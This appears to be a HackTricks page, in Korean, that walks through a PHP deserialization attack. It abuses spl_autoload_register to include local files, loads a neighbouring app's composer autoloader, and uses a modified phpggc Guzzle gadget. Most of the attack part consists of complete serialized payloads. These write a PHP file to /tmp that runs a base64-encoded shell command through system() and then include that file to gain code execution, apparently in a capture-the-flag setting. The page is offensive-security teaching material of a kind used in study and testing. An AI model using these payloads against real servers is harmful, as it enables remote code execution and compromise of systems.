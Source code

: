 # PHP - Deserialization + Autoload Classes

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

먼저, [**자동 로딩 클래스**](https://www.php.net/manual/en/language.oop5.autoload.php)가 무엇인지 확인해야 합니다.

## PHP deserialization + spl\_autoload\_register + LFI/Gadget

우리는 **웹앱에서 PHP deserialization**을 발견했지만 **`phpggc`** 내부에 **가젯에 취약한 라이브러리**가 **없는** 상황에 있습니다. 그러나 같은 컨테이너에 **취약한 라이브러리가 있는 다른 composer 웹앱**이 있었습니다. 따라서 목표는 **다른 웹앱의 composer 로더를 로드하고** 이를 악용하여 **deserialization에 취약한 웹앱의 가젯으로 해당 라이브러리를 악용하는 것**이었습니다.

단계:

* **deserialization**을 발견했지만 현재 앱 코드에 **가젯이 없습니다.**
* 다음과 같은 **`spl_autoload_register`** 함수를 악용하여 **`.php` 확장자를 가진 로컬 파일을 로드할 수 있습니다.**
* 이를 위해 클래스 이름이 **`$name`** 안에 들어가도록 deserialization을 사용합니다. 직렬화된 객체의 클래스 이름에 **"/" 또는 "."**를 사용할 수 없지만, **코드**는 **언더스코어**("\_")를 **슬래시**("/")로 **대체**하고 있습니다. 따라서 `tmp_passwd`와 같은 클래스 이름은 `/tmp/passwd.php`로 변환되고, 코드는 이를 로드하려고 시도합니다.\
**가젯 예시**는: **`O:10:"tmp_passwd":0:{}`**입니다.
```php
spl_autoload_register(function ($name) {

if (preg_match('/Controller$/', $name)) {
$name = "controllers/${name}";
} elseif (preg_match('/Model$/', $name)) {
$name = "models/${name}";
} elseif (preg_match('/_/', $name)) {
$name = preg_replace('/_/', '/', $name);
}

$filename = "/${name}.php";

if (file_exists($filename)) {
require $filename;
}
elseif (file_exists(__DIR__ . $filename)) {
require __DIR__ . $filename;
}
});
```
{% hint style="success" %}
파일 업로드가 가능하고 **`.php` 확장자**가 있는 파일을 업로드할 수 있다면, 이 기능을 **직접 악용**하여 이미 RCE를 얻을 수 있습니다.
{% endhint %}

내 경우에는 그런 것이 없었지만, **같은 컨테이너** 안에 **`phpggc` 가젯에 취약한 라이브러리가 있는 다른 composer 웹 페이지가 있었습니다.**

* 이 다른 라이브러리를 로드하려면 먼저 **그 다른 웹 앱의 composer 로더를 로드해야** 합니다(현재 애플리케이션의 로더는 다른 애플리케이션의 라이브러리에 접근할 수 없습니다). **애플리케이션의 경로를 알고** 있다면, **`O:28:"www_frontend_vendor_autoload":0:{}`**를 사용하여 이를 매우 쉽게 달성할 수 있습니다. (내 경우 composer 로더는 `/www/frontend/vendor/autoload.php`에 있었습니다.)
* 이제 **다른 앱의 composer 로더를 로드**할 수 있으므로, **사용할 phpgcc** **페이로드를 생성할 시간입니다**. 내 경우에는 **`Guzzle/FW1`**을 사용하여 **파일 시스템 내의 모든 파일을 쓸 수 있었습니다.**
* 참고: **생성된 가젯이 작동하지 않았습니다.** 작동하게 하려면 **`chain.php`**의 phpggc 페이로드를 **수정**하고 **모든 속성**을 **private에서 public으로** 설정했습니다. 그렇지 않으면 문자열을 역직렬화한 후 생성된 객체의 속성에 값이 없었습니다.
* 이제 **다른 앱의 composer 로더를 로드할 방법이 있고**, **작동하는 phpggc 페이로드가 있지만**, **가젯이 사용될 때 로더가 로드되도록 동일한 요청에서 이를 수행해야** 합니다. 이를 위해 두 개의 객체가 포함된 직렬화된 배열을 보냈습니다:
* **먼저 로더가 로드되고 그 다음에 페이로드가 로드되는 것을 볼 수 있습니다.**

{% code overflow="wrap" %}
```php
a:2:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}}
```
{% endcode %}

* 이제 우리는 **파일을 생성하고 쓸 수 있지만**, 사용자는 **웹 서버 내의 어떤 폴더에도 쓸 수 없습니다**. 그래서 페이로드에서 볼 수 있듯이, PHP는 **`system`**을 호출하여 **base64**로 **`/tmp/a.php`**에 생성됩니다. 그런 다음, 우리는 **다른 웹앱의 composer 로더를 로드하기 위해 LFI에 사용했던 첫 번째 유형의 페이로드를 재사용할 수 있습니다** **생성된 `/tmp/a.php`** 파일을 로드하기 위해. 그것을 역직렬화 가젯에 추가하기만 하면 됩니다:&#x20;

{% code overflow="wrap" %}
```php
a:3:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}s:6:"Extra3";O:5:"tmp_a":0:{}}
```
{% endcode %}

**페이로드 요약**

* **다른 웹앱의 composer autoload**를 동일한 컨테이너에서 로드
* **phpggc 가젯**을 로드하여 다른 웹앱의 라이브러리를 악용 (역직렬화에 취약한 초기 웹앱에는 라이브러리에 가젯이 없음)
* 가젯은 **/tmp/a.php**에 악성 명령어가 포함된 PHP 페이로드로 파일을 생성
* 페이로드의 마지막 부분은 **생성된 PHP 파일을 로드**하여 명령어를 실행

나는 **이 역직렬화를 두 번 호출해야 했다**. 내 테스트에서 첫 번째로 `/tmp/a.php` 파일이 생성되었지만 로드되지 않았고, 두 번째로는 올바르게 로드되었다.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
